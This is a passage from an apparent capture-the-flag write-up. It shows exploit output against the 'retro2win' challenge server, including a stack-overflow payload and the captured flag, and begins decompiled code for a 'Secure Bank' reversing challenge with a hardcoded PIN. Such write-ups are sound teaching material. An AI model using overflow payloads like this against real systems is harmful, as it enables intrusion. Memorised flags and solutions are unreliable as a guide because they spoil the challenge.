 ```bash
➜  challenge python3 exploit.py REMOTE
[+] Opening connection to retro2win.ctf.intigriti.io on port 1338: Done
[*] Switching to interactive mode

Checking cheatcode: AAAAAAAAAAAAAAAABBBBBBBB\\xb3        @!
CHEAT MODE ACTIVATED!
You now have access to secret developer tools...

FLAG: INTIGRITI{3v3ry_c7f_n33d5_50m3_50r7_0f_r372w1n}
[*] Got EOF while reading in interactive
```

## Reverse

#### Secure Bank

#### Description

> Can you crack the bank?
>

![image.png](./image1.png)

#### Solution

- **main()** function:

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int v4; // [rsp+4h] [rbp-Ch] BYREF
  int v5; // [rsp+8h] [rbp-8h] BYREF
  unsigned int _2fa_code; // [rsp+Ch] [rbp-4h]

  banner(argc, argv, envp);
  login_message();
  printf("Enter superadmin PIN: ");
  __isoc99_scanf("%u", &v5);
  if ( v5 == 1337 )
  {
    _2fa_code = generate_2fa_code(1337LL);
    printf("Enter your 2FA code: ");
    __isoc99_scanf("%u", &v4);
    validate_2fa_code(v4, _2fa_code);
    return 0;
```